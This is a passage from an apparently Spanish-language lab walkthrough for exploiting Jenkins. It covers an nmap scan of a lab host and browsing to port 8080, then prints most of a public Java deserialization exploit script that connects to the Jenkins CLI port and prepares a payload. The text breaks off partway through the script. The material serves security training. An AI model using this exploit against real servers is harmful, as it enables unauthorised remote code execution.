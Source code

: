 Mandar:

```
nmap demo.ine.local
```

Obtuvo la información sobre la dirección IP y los puertos que están abiertos en la máquina de destino.

Paso 3: Inspeccione la aplicación Jenkins navegando hasta la dirección IP en el puerto 8080 en el navegador web.

URL de destino:

```
http://192.24.161.3:8080/
```

Paso 4: Copia y pega el código del exploit de python y guárdalo como exploit.py.

Fuente: https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py

Código:

```
#!/usr/bin/python
# usage: ./jenkins.py host port /path/to/payload
import socket
import sys
import requests
import base64

host = sys.argv[1]
port = sys.argv[2]

# Query Jenkins over HTTP to find what port the CLI listener is on
r = requests.get('http://' + host + ':' + port)
cli_port = int(r.headers['X-Jenkins-CLI-Port'])

# Open a socket to the CLI port
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (host, cli_port)
print('connecting to %s port %s' % server_address)
sock.connect(server_address)

# Send headers
headers = '\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74'
print('sending "%s"' % headers)
sock.send(headers)
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3], 'rb').read()
payload_b64 = base64.b64encode(payloadObj)
```